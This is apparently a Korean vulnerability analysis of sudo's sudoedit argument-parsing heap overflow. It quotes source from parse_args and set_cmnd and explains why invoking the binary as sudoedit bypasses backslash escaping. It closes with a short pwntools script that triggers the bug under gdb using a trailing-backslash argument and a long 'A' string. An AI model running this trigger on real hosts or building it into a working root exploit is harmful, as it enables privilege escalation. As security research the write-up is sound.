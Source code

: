```c
819     if (sudo_mode & (MODE_RUN | MODE_EDIT | MODE_CHECK)) { 
... 
858             if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) {
```

`set_cmnd`

```c
571     if (ISSET(mode, MODE_RUN) && ISSET(flags, MODE_SHELL)) {
```

`parse_args`

`parse_args`는 `MODE_RUN`과 `MODE_SHELL`이 모두 세팅 되어있어야 하지만 `set_cmnd`는 둘중 하나만 세팅되어있어도 가능하고, `MODE_EDIT`이나 `MODE_CHECK`를 사용할 수 있다.

```c
case 'e':
		    if (mode && mode != MODE_EDIT)
			usage_excl(1);
		    mode = MODE_EDIT;
		    sudo_settings[ARG_SUDOEDIT].value = "true";
		    valid_flags = MODE_NONINTERACTIVE;
		    break;

...

if ((flags & valid_flags) != flags)
	usage(1);
```

`MODE_EDIT`은 `-e`옵션으로 `parse_args`에서 사용 가능하다. 하지만 이떄 `valid_flags`를 `MODE_NONINTERACTIVE`로 세팅하기 때문에 에러가 뜬다. (`usage`함수 실행시 exit)

```c
if (proglen > 4 && strcmp(progname + proglen - 4, "edit") == 0) {
	progname = "sudoedit";
	mode = MODE_EDIT;
	sudo_settings[ARG_SUDOEDIT].value = "true";
    }
```

그러나 프로그램 이름이 sudoedit이라면 `MODE_EDIT`을 기본적으로 세팅하기 때문에 `-s`옵션(`MODE_SHELL`)을 사용하면 취약한 코드로 들어가되, `parse_args`의 meta character를 삭제하는 부분을 들어가지 않게 된다.

```c
#!/usr/bin/python3
from pwn import *

# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

gdbscript = '''
c
'''

p = gdb.debug(["/usr/local/bin/sudoedit", "-s", "\\\\", "A" * 0x1000], gdbscript)

p.interactive()
```
